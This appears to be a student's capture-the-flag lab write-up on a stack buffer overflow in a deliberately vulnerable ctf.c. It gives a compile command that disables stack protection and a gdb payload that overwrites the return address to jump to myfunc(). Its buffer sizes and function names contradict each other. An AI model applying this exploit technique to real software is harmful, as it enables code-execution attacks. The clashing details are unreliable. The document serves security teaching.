




# Lab 2
## 1. File ctf.c

**Summarizing**

    In this case, the buf[] array has 128 bytes, but the fgets() command reads up to 133 bytes.

=> We rely on 4 bytes to overwrite the address of the addition function with the address of the shell function

**Steps**
- Stackframes.

    

- Compile ctf.c
    >gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2

- Find the memory address of the myfunc() function.

    

- Find the memory address of exit().

    

   
 - According to the stackframes above, in vuln(), the buf[] array has 100 bytes and ebp is 4 bytes, total is 104 bytes to reach return address. 
 - Insert 104 'a' characters to reach the exact memory location of the func variable, then insert the address of the myfunc() function "0x0804851b" to execute the myfunc()function, add value for q, p, and return address.
    **Connect gdb and run again by this command:** 
    >r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x08\x04'+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")

    
